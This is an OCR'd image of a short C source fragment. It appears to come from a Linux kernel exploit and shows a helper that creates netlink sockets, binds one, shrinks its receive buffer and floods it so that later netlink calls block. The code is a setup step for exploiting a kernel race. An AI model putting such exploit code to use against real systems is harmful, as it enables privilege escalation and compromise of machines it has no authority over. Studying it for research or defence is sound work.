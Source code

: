 ```c
    .msg_controllen = 0,
    .msg_flags = 0, 
  };

  printf("[ ] preparing blocking netlink socket\n");

  if ((send_fd = _socket(AF_NETLINK, SOCK_DGRAM, NETLINK_USERSOCK)) < 0 ||
      (recv_fd = _socket(AF_NETLINK, SOCK_DGRAM, NETLINK_USERSOCK)) < 0)
  {
    perror("socket");
    goto fail;
  }
  printf("[+] socket created (send_fd = %d, recv_fd = %d)\n", send_fd, recv_fd);

  // simulate netlink_autobind()
  while (_bind(recv_fd, (struct sockaddr*)&addr, sizeof(addr)))
  {
    if (errno != EADDRINUSE)
    {
      perror("[-] bind");
      goto fail;
    }
    addr.nl_pid++;
  }

  printf("[+] netlink socket bound (nl_pid=%d)\n", addr.nl_pid);

  if (_setsockopt(recv_fd, SOL_SOCKET, SO_RCVBUF, &new_size, sizeof(new_size)))
    perror("[-] setsockopt"); // no worry if it fails, it is just an optim.
  else
    printf("[+] receive buffer reduced\n");

  printf("[ ] flooding socket\n");
  while (_sendmsg(send_fd, &mhdr, MSG_DONTWAIT) > 0)  // <----- don't forget MSG_DONTWAIT
    ;
  if (errno != EAGAIN)  // <----- did we failed because the receive buffer is full ?
  {
    perror("[-] sendmsg");
    goto fail;
  }
  printf("[+] flood completed\n");

  _close(send_fd);

  printf("[+] blocking socket ready\n");
  return recv_fd;

fail:
  printf("[-] failed to prepare block socket\n");
  return -1;
}
```
